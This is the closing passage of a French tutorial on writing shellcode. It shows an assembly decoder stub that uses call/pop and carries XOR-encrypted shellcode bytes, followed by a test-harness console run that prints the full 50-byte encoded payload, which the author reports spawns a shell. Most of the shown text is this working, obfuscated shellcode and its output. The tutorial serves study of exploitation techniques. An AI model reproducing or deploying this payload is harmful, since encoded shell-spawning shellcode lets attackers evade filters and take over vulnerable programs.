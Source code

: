 	CALL:
	call RET                ; call empile la prochaine instruction, ici notre shellcode
	SHELLCODE:                 ; Notre shellcode crypté
	db 0xfd,0x0c,0x9c,0xa4,0xe3,0xe3,0xbf,0xa4,0xa4,0xe3,0xae,0xa5
	db 0xa2,0x45,0x2f,0x9c,0x9f,0x45,0x2d,0x9c,0x9d,0x9f,0x7c,0xf7,0x9c,0x01,0x4c
	db 0x90

Testons le :

	:::console
	[tosh@localhost /usr/home/tosh]$ shelltest test
	Len : 50 bytes
	Shellcode : \xeb\x0f\x5e\x80\x3e\x90\x74\x0e\x80\x36\xcc\x46\xe9\xf2\xff\xff\xff\xe8\xec\xff\xff\xff
	\xfd\x0c\x9c\xa4\xe3\xe3\xbf\xa4\xa4\xe3\xae\xa5\xa2\x45\x2f\x9c\x9f\x45\x2d\x9c\x9d\x9f\x7c\xf7\x9c
	\x01\x4c\x90
	$

Parfait, nous avons encore notre shell !

Bien sûr, pour que celà fonctionne, il faut que la zone où est injecté le shellcode soit +rwx, ce qui devient rare de nos jours...

Voilà, je vais m'arrêter là, peut être que j'étofferais cet article avec le temps, le monde du shellcoding est tellement vaste et intéressant, qu'il y a encore de nombreuses choses à dire.

Good programming !
